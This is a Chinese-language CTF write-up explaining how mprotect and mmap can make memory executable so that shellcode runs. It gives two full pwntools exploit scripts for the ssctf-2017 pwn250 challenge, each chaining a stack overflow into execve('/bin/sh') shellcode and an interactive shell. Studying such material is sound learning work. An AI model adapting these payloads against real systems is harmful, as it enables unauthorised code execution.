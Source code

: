 ```yaml
---
title: execute shellcode with mmap and mprotect
date: 2017-05-07 23:25:37
categories: pwn
---
```


# 利用mmap和mprotect来任意执行shellcode
此前一直只了解了下原理，没有实际执行过，结果遇到题目后花时间去查它们的详细参数，因此这里记录总结下。

<!-- more -->
> - by hook

## 信息介绍

现在程序基本都是开了对堆栈不可执行选项，但msf一堆优秀的shellcode不能拿来用是件多么痛苦的事情。
这里可以用mmap()或者mprotect函数来构造出我们须要权限的segment。

## 函数介绍
### <1>. mprotect
int mprotect(const void *start, size_t len, int prot);  
mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。

### <2>. mmap
void* mmap(void* start,size_t length,int prot,int flags,int fd,off_t offset);
mmap()函数把指定或随机分配的地址内存，以prot权限映射到自start开始的，长度为length，而且为PAGE_SIZE单位的地址。

## 利用思路
<1>. 将shellcode写进一段具有可写权限的段里，然后用mprotect将对应的段修改为可执行，再跳到布置好的shellcode里。
<2>. 用mmap获取一段rwx权限的内存，映射到指定地址处，然后将shellcode写入映射好的内容存里，接着跳入布置好的shellcode中。

## 实例
[ssctf-2017 pwn250](https://github.com/gloxec/record/ssctf_2017/pwn250)
就拿这这个来练习下mprotect&mmap:

mprotect:

```
#!/usr/bin/python

from pwn import *

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

bssAddr = 0x080ec000
mprotectAddr = 0x0806e070
readAddr = 0x0806d510

p = process('./250')
#p = remote('60.191.205.81', 2017)
context.log_level = 'debug'
p.recvuntil('Size]')
p.sendline('102')
p.recvuntil('Data]')

pppr = 0x080ad715

payload = 'a'*62+p32(mprotectAddr) + p32(pppr) + p32(bssAddr) + p32(0x1000) + p32(7)
payload += p32(readAddr) + p32(bssAddr) + p32(0) + p32(bssAddr) + p32(len(shellcode)+1)
p.send(payload)
p.send(shellcode)
p.recv()

p.interactive()
```

mmap:

```
#!/usr/bin/python

from pwn import *

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

segAddr = 0xbeef0000
mmapAddr = 0x0806DF70 
mainAddr = 0x08048886
readAddr = 0x0806d510

p = process('./250')
#p = remote('60.191.205.81', 2017)
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
p.recvuntil('Size]')
p.sendline('94')
p.recvuntil('Data]')

payload = 'a'*62+p32(mmapAddr) + p32(mainAddr) + p32(segAddr) + p32(1024) + p32(7) + p32(34) + p32(0) + p32(0)
p.send(payload)

p.recvuntil('Size]')
#gdb.attach(p)
p.sendline('82')
p.recvuntil('Data]')
payload2 = 'a'*62+p32(readAddr) + p32(segAddr) + p32(0) + p32(segAddr) + p32(1024)
p.send(payload2)
p.sendline(shellcode)
p.recv()

p.interactive()
```
这里拿mmap后的内存看一下,可以发现被映射成rwx的内存和shellcode的成功执行。
![](/images/execute shellcode with mmap and mprotect/mmap.png)

